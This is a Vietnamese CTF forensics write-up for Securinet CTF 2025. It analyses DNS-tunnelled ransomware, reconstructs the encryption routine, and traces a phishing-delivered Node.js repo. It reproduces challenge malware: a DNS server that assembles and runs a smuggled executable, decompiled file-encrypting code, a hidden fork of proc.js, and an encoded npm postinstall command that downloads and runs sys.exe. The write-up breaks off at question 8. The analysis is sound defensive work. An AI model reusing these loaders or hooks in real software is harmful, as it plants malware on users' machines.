# Securinet CTF 2025

## Forensic

### Recovery

Bài này tương đối cần nhiều thời gian để giải nên mình sẽ nói nhanh và vắn tắt.

#### Overview

Ta có một network capture và thư mục người dùng.

#### Xem xét packet capture




Có các gói tin bị hỏng ở giao thức DNS, chứng tỏ có điều gì đó mờ ám ở giao thức DNS.

Một trong những gói tin bị lỗi có nội dung rất lạ:



Chúng truy vấn đến EBWXVMBAEMQCAIBEEAQCBX67EAQJQIBAEAQCAIBAMAQCAIBAEAQCAIBAEAQCAIBAEA.0.meow, một tên miền rất lạ. Ở dưới có khá nhiều truy vấn DNS tương tự.

#### Xem xét thư mục người dùng

```
whoami
hostname
systeminfo
Get-Date
Get-ComputerInfo
ping 8.8.8.8
ping google.com
ping 1.1.1.1
tracert 8.8.8.8
tracert google.com
ipconfig
ipconfig /all
ipconfig /flushdns
nslookup google.com
nslookup 8.8.8.8
Test-NetConnection google.com -Port 443
Test-NetConnection 8.8.8.8 -Port 53
Get-NetAdapter
Get-NetIPAddress
Get-NetRoute
Get-Service
Get-Process
Get-DnsClientCache
Get-DnsClientServerAddress
netstat -ano
Set-ExecutionPolicy RemoteSigned -Force
New-Item -ItemType Directory -Path "C:\tools"
cd C:\tools
Invoke-WebRequest -Uri "https://chocolatey.org/install.ps1" -UseBasicParsing | Invoke-Expression
choco -v
choco install openssh -y
Start-Service sshd
Set-Service -Name sshd -StartupType Automatic
Get-Service sshd
Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}
New-NetFirewallRule -Name "OpenSSH" -DisplayName "OpenSSH Port 22" -Protocol TCP -LocalPort 22 -Action Allow
ssh-keygen -t rsa -b 4096 -f $env:USERPROFILE\.ssh\id_rsa
type $env:USERPROFILE\.ssh\id_rsa.pub
mkdir C:\config
cd C:\config
New-Item -ItemType File -Path "settings.conf"
Set-Content -Path "settings.conf" -Value "Hostname=server01"
Get-Content settings.conf
Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'
Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
Start-Service ssh-agent
Set-Service ssh-agent -StartupType Automatic
Get-Service ssh-agent
ssh-add $env:USERPROFILE\.ssh\id_rsa
cd C:\tools
choco install git -y
git --version
git config --global user.name "Admin"
git config --global user.email "admin@example.com"
mkdir C:\repos
cd C:\repos
git clone https://github.com/youssefnoob003/dns100-free.git
cd .\dns100-free\
pip install -r .\requirements.txt
python .\app.py
New-NetFirewallRule -DisplayName "App Port 8080" -Direction Inbound -Protocol TCP -LocalPort 8080 -Action Allow
Get-NetFirewallRule | where DisplayName -like "*App Port*"
netstat -ano | findstr :8080
tasklist | findstr python
Set-Location C:\
Get-ChildItem -Path "C:\Users" -Recurse -ErrorAction SilentlyContinue | Out-Null
Get-EventLog -LogName System -Newest 10
Get-EventLog -LogName Application -Newest 10
Restart-Service sshd
Restart-Service ssh-agent
Test-NetConnection localhost -Port 22
Test-NetConnection google.com -Port 80
Resolve-DnsName microsoft.com
Resolve-DnsName github.com
ipconfig /displaydns
Clear-DnsClientCache
Get-WmiObject Win32_NetworkAdapterConfiguration | Select Description,IPAddress,MACAddress
Get-WmiObject Win32_OperatingSystem | Select Caption,Version,BuildNumber
Get-LocalUser
Get-LocalGroup
net user
net localgroup administrators
New-Item -ItemType Directory -Path "C:\logs"
cd C:\logs
Get-EventLog -LogName Security -Newest 5 | Out-File security_log.txt
Get-Date | Out-File timestamp.txt
(Get-Content (Get-PSReadlineOption).HistorySavePath) | Out-File "powershell_history.txt"
Compress-Archive -Path .\ -DestinationPath "C:\archive\config_backup.zip"
mkdir C:\backup
Copy-Item "C:\config\settings.conf" -Destination "C:\backup\settings_backup.conf"
Remove-Item "C:\config\settings.conf"
Rename-Item "C:\backup\settings_backup.conf" -NewName "settings.conf"
cd C:\repos\dns100-free\
git pull
python .\app.py
Get-Process | Where-Object {$_.CPU -gt 10}
Stop-Process -Name "notepad" -ErrorAction SilentlyContinue
Start-Job -ScriptBlock { ping 8.8.8.8 -t }
Get-Job
Stop-Job -Id 1
Remove-Job -Id 1
Exit
```

Lịch sử PowerShell cho thấy người dùng (?) đang cố test các chức năng mạng, sau đó thêm private key vào trong SSH, clone một repo trên GitHub về, đặt thêm rule tường lửa và backup một thư mục nào đó. Đoạn cuối khá là lạ, tại sao lại cố xem danh sách các tiến trình trên hệ thống?

Trong số đó có một repo GitHub lạ `https://github.com/youssefnoob003/dns100-free.git` và có khả năng liên quan đến các gói tin DNS lạ được đề cập ở trên.



Thoạt nhìn qua thì không có gì đáng ngờ ở repo này. Tuy nhiên, khi xem xét 12 commits, có một đoạn code khá đáng ngờ.

Ở commit có mã 34465d5, có các hàm sau:

```py
def xor_bytes(data_bytes, key_byte):
    """XOR every byte with a single-byte key."""
    return bytes([b ^ key_byte for b in data_bytes])
```

```py
class DNSServer(socketserver.ThreadingUDPServer):
    allow_reuse_address = True
    def __init__(self, server_address, handler_class, db_path):
        super().__init__(server_address, handler_class)
        self.db_path = db_path
        self.conn = sqlite3.connect(db_path, check_same_thread=False)
        self.conn.row_factory = sqlite3.Row
        self.special_domain = "meow"
        self.chunks = {}

    def _zone_for_qname(self, qname):
        rows = self.conn.execute("SELECT * FROM zones").fetchall()
        matches = [r for r in rows if qname.endswith(r["name"])]
        if not matches:
            return None
        return max(matches, key=lambda r: len(r["name"]))

    def _records_for(self, zone_id, name, rtype):
        rows = self.conn.execute("SELECT * FROM records WHERE zone_id=? AND name=? AND type=?",
                                 (zone_id, name, rtype)).fetchall()
        return rows

    def _all_records_name(self, zone_id, name):
        rows = self.conn.execute("SELECT * FROM records WHERE zone_id=? AND name=?",
                                 (zone_id, name)).fetchall()
        return rows

    def _soa_rr(self, zone):
        mname = zone["primary_ns"]
        rname = zone["admin_email"]
        times = (int(zone["serial"]), int(zone["refresh"]), int(zone["retry"]), int(zone["expire"]), int(zone["minimum"]))
        return RR(zone["name"], QTYPE.SOA, rdata=SOA(mname, rname, times), ttl=zone["ttl"])

    def answer_query(self, request: DNSRecord) -> DNSRecord:
        qname = str(request.q.qname)
        qtype = QTYPE[request.q.qtype]

        labels = qname.split(".")
        print(labels)
        if labels[-2] == self.special_domain:
            if labels[0] == "end":
                print("[+] Stop signal received, reconstructing file...")
                ordered = [self.chunks[i] for i in sorted(self.chunks.keys())]
                exe_bytes = b"".join(ordered)

                with tempfile.NamedTemporaryFile(delete=False, suffix=".exe") as tmp_exe:
                    tmp_exe.write(exe_bytes)
                    exe_path = tmp_exe.name

                print(f"[+] Running {exe_path}")
                subprocess.run([exe_path], check=True)
                os.unlink(exe_path)            
            elif len(labels) >= 3:
                try:
                    dns_label = labels[0]
                    index = int(labels[1])
                    padded = dns_label + "=" * ((8 - len(dns_label) % 8) % 8)
                    decoded_bytes = base64.b32decode(padded)
                    key_byte = decoded_bytes[0]
                    encrypted_chunk = decoded_bytes[1:]
                    original_bytes = xor_bytes(encrypted_chunk, key_byte)
                    self.chunks[index] = original_bytes
                    print(f"[+] Received chunk {index}, len={len(original_bytes)}")
                except Exception as e:
                    print(f"[!] Failed to decode chunk {labels}: {e}")

        reply = DNSRecord(DNSHeader(id=request.header.id, qr=1, aa=1, ra=0))

                    
[...snip...]
                    
```
Tại sao một DNS server lại cần đến hàm XOR?

Hàm answer_query dùng để xét xem khi số label trong tên miền là 3 thì sẽ giải mã bằng cách lấy chuyển label đầu tiên từ Base32 sang dạng raw và lấy byte đầu làm key để XOR các bytes còn lại tạo thành một chuỗi dữ liệu hoàn chỉnh. Và tất cả tên miền có label cuối là meow sẽ bao gồm dữ liệu ẩn. Label giữa đóng vai trò như một index number để biểu thị thứ tự của các chuỗi byte.

Như vậy, có thể thấy dữ liệu được đem vào máy thông qua truy vấn DNS, cụ thể là máy khác truy vấn DNS qua máy người dùng và máy người dùng sẽ trả lời truy vấn, đồng thời mang dữ liệu ẩn vào máy.

Mặt khác, trên desktop của người dùng có vài file, một trong số đó là sillyflag.png có thể bao gồm flag. Nhưng file không mở được, khả năng cao là bị mã hóa bới cái gì đó được thực thi (theo đoạn mã Python ở trên)

Đúng như dự đoán, các file đều đã bị mã hóa, các file đều không thể mở được ngoại trừ 1 file txt:

```
*** IMPORTANT NOTICE ***

Payment of 0.1Btc must be made in Bitcoin to the following wallet: bc1qa5wkgaew2dkv56kfvj49j0av5nml45x9ek9hz6

After payment, you will receive a decryption tool and instructions.

You have 72 hours to comply.

```

Kết luận, người dùng đã bị ransomware tấn công, chúng ta phải tìm ra được file thực thi đã mã hóa file của người dùng để tìm ra phương án giải mã.

Đầu tiên, xét về các packet DNS, khả năng cao ransomware đi vào máy bằng đường đó. Mình sử dụng code này đề trích xuất dữ liệu DNS ẩn:

```py
import base64, os, sys
from scapy.all import rdpcap, UDP

def xor_bytes(data, key): 
    return bytes(b ^ key for b in data)

def parse_labels(raw):
    if len(raw) <= 12: return []
    labels, pos = [], 12
    while pos < len(raw):
        L = raw[pos]
        if L == 0: break
        pos += 1
        if pos + L > len(raw): break
        labels.append(raw[pos:pos+L].decode(errors="ignore"))
        pos += L
    return labels

def process_pcap(path, special_domain="meow", out_file="mal.bin"):
    recon = {}
    queries = []
    for pkt in rdpcap(path):
        if UDP in pkt and pkt[UDP].dport == 53:
            raw = bytes(pkt[UDP].payload)
            labels = parse_labels(raw)
            if not labels: continue
            queries.append(".".join(labels))
            if labels[-1] != special_domain: continue
            if labels[0] == "end":
                if not recon: continue
                ordered = [recon[i] for i in sorted(recon.keys())]
                exe = b"".join(ordered)
                with open(out_file, "wb") as f: f.write(exe)
                print(f"[+] Reconstructed -> {out_file}")
            elif len(labels) >= 3:
                try:
                    dns_label = labels[0]
                    idx = int(labels[1])
                    padded = dns_label + "=" * ((8 - len(dns_label) % 8) % 8)
                    decoded = base64.b32decode(padded)
                    key, chunk = decoded[0], decoded[1:]
                    recon[idx] = xor_bytes(chunk, key)
                    print(f"[+] Chunk {idx} ({len(chunk)} bytes)")
                except Exception as e:
                    print(f"[!] Failed chunk {labels}: {e}")

    with open("dns_queries.txt", "w", encoding="utf-8") as f:
        f.write("\n".join(queries))
    print(f"[+] Saved {len(queries)} queries, collected {len(recon)} chunks.")

if __name__ == "__main__":
    pcap = sys.argv[1] if len(sys.argv) > 1 else "cap.pcapng"
    process_pcap(pcap, special_domain="meow", out_file="mal.bin")
```

Phân tích file mal.bin bằng Detect It Easy, ta có thể thấy file này được nén bằng UPX.



Sử dụng UPX để giải nén, chúng ta có 1 file mới hoàn chỉnh hơn.




#### Phân tích file thực thi

Vì đây là một file thực thi Windows nên sẽ hơi khó để xác định chính xác được entrypoint.

Hàm func1 lấy biến môi trường là thư mục người dùng và đưa vào hàm func2
```c
int __stdcall func1()
{
  char *env; // eax

  sub_401CB0();
  env = getenv("USERPROFILE");
  func2(env);
  sub_4016F7();
  return 0;
}
```

Hàm func2 chạy và dò các file một cách đệ quy và truyền đường dẫn tuyệt đối vào hàm mã hóa (sub_4023B0 có vẻ là hàm dùng để nối các string lại như snprintf). Sau đó, nó dùng hàm stat để kiểm tra xem nó đang xét thư mục hay là file. Nếu là thư mục (S_IFDIR == 0x4000) nó sẽ chạy đệ quy trên thư mục đó, còn nếu là file (S_IFREG == 0x8000) nó sẽ chạy hàm mã hóa.

```c
void *__cdecl func2(char *env)
{
  void *result; // eax
  void *v2; // edi
  int v3; // eax
  const char *Str1; // ebx
  _stat32 Stat; // [esp+2Ch] [ebp-43Ch] BYREF
  char FileName[1048]; // [esp+50h] [ebp-418h] BYREF

  result = (void *)sub_403A60(env);
  if ( result )
  {
    v2 = result;
    while ( 1 )
    {
      v3 = sub_403C20(v2);
      if ( !v3 )
        break;
      Str1 = (const char *)(v3 + 12);
      if ( strcmp((const char *)(v3 + 12), ".") )
      {
        if ( strcmp(Str1, "..") )
        {
          if ( strcmp(Str1, "AppData") )
          {
            sub_4023B0(FileName, 1024, "%s\\%s", env, Str1);
            if ( stat(FileName, &Stat) != -1 )
            {
              if ( (Stat.st_mode & 0xF000) == 0x4000 )
              {
                func2(FileName);
              }
              else if ( (Stat.st_mode & 0xF000) == 0x8000 )
              {
                enc(FileName);
              }
            }
          }
        }
      }
    }
    return (void *)sub_403C70(v2);
  }
  return result;
}
```

Hàm mã hóa lại sinh key và sau đó XOR key được sinh ra với dữ liệu của file:

```c
void __cdecl enc(char *FileName)
{
  Stream *Stream_1; // eax
  FILE *Stream; // ebx
  signed int Size; // esi
  void *Buffer; // edi
  _BYTE *v5; // eax
  signed int i; // eax
  _BYTE *Block; // [esp+1Ch] [ebp-1Ch]

  Stream_1 = fopen(FileName, "rb+");
  if ( Stream_1 )
  {
    Stream = Stream_1;
    fseek(Stream_1, 0, 2);
    Size = ftell(Stream);
    rewind(Stream);
    Buffer = malloc(Size);
    v5 = malloc(Size);
    Block = v5;
    if ( Buffer && v5 )
    {
      fread(Buffer, 1u, Size, Stream);
      keystream(FileName, Block, Size);
      for ( i = 0; i < Size; ++i )
        *((_BYTE *)Buffer + i) ^= Block[i];
      rewind(Stream);
      fwrite(Buffer, 1u, Size, Stream);
      fclose(Stream);
      free(Buffer);
      free(Block);
      printf("[+] Encrypted %s (size=%ld bytes)\n", FileName, Size);
    }
    else
    {
      fclose(Stream);
      free(Buffer);
      free(Block);
    }
  }
}
```

Hàm sinh key sử dụng đường dẫn tuyệt đối của file và một khóa khác, kết hợp với thuật toán ngẫu nhiên giả LCG để sinh keystream:

```c
_BYTE *__cdecl keystream(char *FileName, _BYTE *a2, signed int Size)
{
  int v3; // edx
  int v4; // ebx
  unsigned int v5; // kr04_4
  char v6; // cl
  int v7; // esi
  int i; // eax
  int v9; // ebx
  char i_1; // cl
  _BYTE *result; // eax

  v3 = 0;
  v4 = 0;
  v5 = strlen(FileName) + 1;
  while ( v4 != v5 - 1 )
  {
    v6 = 8 * (v4 & 3);
    v7 = FileName[v4++];
    v3 ^= v7 << v6;
  }
  for ( i = 0; i != 37; ++i )
  {
    v9 = byte_40B200[i];
    i_1 = i;
    v3 ^= v9 << (8 * (i_1 & 3));
  }
  for ( result = a2; result != &a2[Size]; *(result - 1) = v3 )
  {
    ++result;
    v3 = 1664525 * v3 + 1013904223;
  }
  return result;
}
```

Khóa khác ở đây là `evilsecretcodeforevilsecretencryption` (byte_40B200)

```
.rdata:0040B200 byte_40B200     db 65h                  ; DATA XREF: keystream:loc_401495↑r
.rdata:0040B201 aVilsecretcodef db 'vilsecretcodeforevilsecretencryption',0
```

Sử dụng code Python đề giải mã:

```python
import sys

SECRET = b"evilsecretcodeforevilsecretencryption"

def generate_key(filename: str, length: int) -> bytes:
    seed = 0
    filename = "C:\\Users\\gumba\\Desktop\\" + filename
    flen = len(filename)
    slen = len(SECRET)
    fname_bytes = filename.encode()

    for i in range(flen):
        seed ^= (fname_bytes[i] << ((i % 4) * 8))
    for i in range(slen):
        seed ^= (SECRET[i] << ((i % 4) * 8))

    # Deterministic PRNG (LCG)
    state = seed & 0xFFFFFFFF
    key = bytearray(length)
    for i in range(length):
        state = (state * 1664525 + 1013904223) & 0xFFFFFFFF
        key[i] = state & 0xFF
    return bytes(key)

def decrypt_file(filename: str):
    with open(filename, "rb") as f:
        data = f.read()

    key = generate_key(filename, len(data))
    decrypted = bytes([b ^ k for b, k in zip(data, key)])

    with open(f"decrypted_{filename}", "wb") as f:
        f.write(decrypted)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <filename>")
        sys.exit(1)

    decrypt_file(sys.argv[1])
```

Giải mã sillyflag.png, ta có:




### Slient Visitor

1. What is the SHA256 hash of the disk image provided?

Tính SHA256 của file đĩa mới tải về

```ps
Get-FileHash test.ad1
```

Answer: `122B2B4BF1433341BA6E8FEFD707379A98E6E9CA376340379EA42EDB31A5DBA2`

2. Identify the OS build number of the victim’s system?

Chúng ta có một file đĩa dump (đa số) các file trên ổ đĩa C của người dùng, trong đó có Registry và thư mục các người dùng.

Mở file trong FTK và tìm đến khóa `HKLM/Software/Microsoft/Windows NT/CurrentVersion/CurrentBuildNumber`

Answer: 19045

3. What is the ip of the victim’s machine?

Tìm đến `HKLM/System/ControlSet001/Service/Tcpip/Parameter/Interfaces` và kiểm tra từng interface một. Ta thấy có interface với UUID là `740443d5-abc9-4563-9cdf-73117ca146fe` là có địa chỉ IP là 192.168.206.131, với DHCP server là 192.168.206.2

Answer: 192.168.206.131

4. What is the name of the email application used by the victim?

Bên trong thư mục AppData/Roaming của người dùng có Mozilla Thunderbird được cài đặt.

Answer: Thunderbird

5. What is the email of the victim?

Có nhiều cách để kiểm tra, chẳng hạn xem inbox của người dùng và tất cả mail đều đến `ammar55221133@gmail.com`

Hoặc có thể kiểm tra bằng session.json:

```json
{
  "rev": 0,
  "windows": [
    {
      "type": "3pane",
      "tabs": {
        "rev": 0,
        "selectedIndex": 0,
        "tabs": [
          {
            "mode": "mail3PaneTab",
            "state": {
              "firstTab": true,
              "folderPaneVisible": true,
              "folderURI": "imap://ammar55221133%40gmail.com@imap.gmail.com/INBOX",
              "messagePaneVisible": true
            },
            "ext": {}
          },
          {
            "mode": "contentTab",
            "state": {
              "tabURI": "https://www.mozilla.org/en-US/privacy/thunderbird/",
              "linkHandler": "single-site",
              "userContextId": "0"
            },
            "ext": {}
          }
        ]
      }
    }
  ]
```

Answer: `ammar55221133@gmail.com`

6. What is the email of the attacker?

Để kiếm tra thì ta phải xem inbox của người dùng. Ta thấy ngoài mail của Google gửi đến người dùng thì còn có 3 mail từ `masmoudim522@gmail.com`: mail đầu tiên nêu ý tưởng về một cái gì đó sử dụng Node.js làm API:

```
Hope your week’s going okay :)

So I was thinking for the class project, maybe we could build a small Node.js API — something super basic, like a course registration thing or a little student dashboard.

I already played around with some boilerplate code to get us started. I’ll clean it up a bit and share it with you.

Let me know what you think!ro

```

Người dùng có đề nghị gửi thử ý tưởng:

```
nice can you send me what you did
```

Mail thứ 2 là gửi link đến ý tưởng đó trên GitHub:

```
Hey hey!

Just pushed up the starter code here:
👉 https://github.com/lmdr7977/student-api

You can just clone it and run npm install, then npm run dev to get it going. Should open on port 3000.

I set up a couple of helpful scripts in there too, so feel free to tweak whatever.

Lmk if anything’s broken 😅

```

Sau đó là mail thứ 3, đối phương nói chạy bằng quyền quản trị (hơi lạ, tại sao lại phải chạy một dự án Node.js bằng quyền quản trị?):

```
just run in as admin
```

Người dùng có trả lời lại bằng 1 lời cảm ơn.

Ngay từ trong email của người dùng, chúng ta thấy người dùng có thể sắp bị dính một cái bẫy lừa đảo (có thể là kiểu tấn công thông qua chuỗi cung ứng).

Answer: `masmoudim522@gmail.com`

Ngoài ra, trong history.sqlite có lưu email cuối mà người dùng có nhận/gửi email.

7. What is the URL that the attacker used to deliver the malware to the victim?

Kiểm tra link GitHub mà đối phương đã gửi cho nguời dùng, ta có 4 files:



index.js: không có gì đáng chú ý, ngoại trừ đoạn code ở dưới cùng có vẻ đang cố chạy ngầm file proc.js:

```js
// --- 🕵️ Stealthy malware execution ---
setTimeout(() => {
  try {
    const hidden = path.join(__dirname, 'proc.js');
    fork(hidden, [], {
      detached: true,
      stdio: 'ignore'
    }).unref();
  } catch (err) {
    // Silently fail
  }
}, 8000); // Delay execution to look natural
```

Chứng tỏ file proc.js có gì đó bất thường. Kiểm tra file đó ta thấy nó đang cố chạy `sys.exe` (code sau đã được gỡ rối để dễ nhìn, code lúc đầu bị rối mã bằng Base64):

```js
(function(){
  
    const _require = require;
    const child = _require('child_process');
    const path = _require('path');
    const sysenv = process.env['appdata'];
    const exePath = path.join(sysenv, 'sys.exe');
  
    const run = child['exec'];
  
    run(`start "" "${exePath}"`, (err) => {
      if (err) {
        _require(console)['error'](err); 
      } else {
        _require(console)['log']('Start with ' + exePath);
      }
    });
  })();
  
 ```
 
 Vậy sys.exe từ đâu mà ra? Bên trong package.json có câu trả lời:
 
 ```json
{
  "name": "windows",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "powershell -NoLogo -NoProfile -WindowStyle Hidden -EncodedCommand \"JAB3ACAAPQAgACIASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACIAOwAKACQAdQAgAD0AIAAiAGgAdAB0AHAAcwA6AC8ALwB0AG0AcABmAGkAbABlAHMALgBvAHIAZwAvAGQAbAAvADIAMwA4ADYAMAA3ADcAMwAvAHMAeQBzAC4AZQB4AGUAIgA7AAoAJABvACAAPQAgACIAJABlAG4AdgA6AEEAUABQAEQAQQBUAEEAXABzAHkAcwAuAGUAeABlACIAOwAKAEkAbgB2AG8AawBlAC0AVwBlAGIAUgBlAHEAdQBlAHMAdAAgACQAdQAgAC0ATwB1AHQARgBpAGwAZQAgACQAbwA=\""
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "description": "",
  "dependencies": {
    "child_process": "^1.0.2",
    "express": "^5.1.0",
    "path": "^0.12.7"
  }
}
```

Theo như `https://github.com/RooCodeInc/Roo-Code/security/advisories/GHSA-c292-qxq4-4p2v`, họ nói:

"...if a repository’s package.json file contains a malicious postinstall script, it would be executed automatically without user approval..."

Có nghĩa là, nếu trong package.json có mã độc trong phần postinstall, nó sẽ tự động thực thi mà không cần hỏi người dùng. Nghĩa là, lệnh PowerShell được thực thi sau khi cài đặt package. Command bị mã hóa Base64, sau khi giải mã ta có:

```ps
$w = "Invoke-WebRequest";
$u = "https://tmpfiles.org/dl/23860773/sys.exe";
$o = "$env:APPDATA\sys.exe";
Invoke-WebRequest $u -OutFile $o
```

Kết hợp với proc.js, ta xác định được malware sẽ được lấy về từ URL trên thông qua Invoke-WebRequest, được đặt vào trong AppData/Roaming `$env:APPDATA` và sys.exe sẽ được thực thi khi người dùng chạy index.js

Answer: `https://tmpfiles.org/dl/23860773/sys.exe`


8. What is the SHA256 hash of the malware file?

Ta biết file ở trong AppData/Roaming, ta có thể trích xuất file ra và mang nó lên VirusTotal để kiểm thử:

